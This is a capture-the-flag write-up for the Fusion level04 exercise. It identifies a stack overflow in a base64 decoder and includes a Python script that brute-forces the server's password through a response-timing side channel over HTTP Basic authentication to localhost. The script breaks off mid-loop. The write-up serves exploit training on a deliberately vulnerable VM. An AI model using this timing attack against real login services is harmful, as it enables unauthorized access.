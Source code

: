 +++
author = "pwntester"
categories = ["CTF", "Fusion", "exploit", "level04"]
date = 2013-12-31T19:00:00Z
description = ""
draft = false
slug = "fusion-level04-write-up"
tags = ["CTF", "Fusion", "exploit", "level04"]
title = "Fusion level04 write-up"

+++

In this [level](http://exploit-exercises.com/fusion/level04) we have to bypass a bunch of protections:

![](/images/octopress/fusion04.png)

The stack based vulnerability is easy to find. It is in the **base64_decode()** function. It takes the output buffer length as an argument, but the it overwrites it with a new value based on the input buffer length. So we are going to be able to control how many bytes we want to write in the output buffer:

```lang-clike line-numbers 
*output_length = input_length / 4 * 3;
```

Now in order to send a valid request we need to provide a password the server generates when it loads but then it reuses for every connection. There is a covert channel leaking how many characters we sent were wrong and we can take advantage of this to get the password. The following script will choose a character based on the response time till it finds the 16 character long password:

```lang-python line-numbers 
#!/usr/bin/python

from socket import *
from struct import *
import base64
import time
import string


def try_password(password):
        credentials = base64.b64encode("stack6:{0}".format(password))
        s = socket(AF_INET, SOCK_STREAM)
        s.connect(("localhost", 20004))
        request = "GET / HTTP/1.0\r\n"
        request += "Authorization: Basic {0}\r\n".format(credentials)
        request += "\n"
        begin = time.time()
        s.send(request)
        response = s.recv(1024)
        end = time.time()
        s.close()
        return (end-begin, response)

def bruteforce():
        password = ""
        count = 3
        i = 0
        while i<16:
                candidate = ""
                others = 10000000
                response = ""
                for char in string.ascii_letters+string.digits:
                        (time, response) = try_password(password + char)
                        #print("trying {0}, reponse in {1}".format(char, time))
                        if "Unauthorized" not in response:
```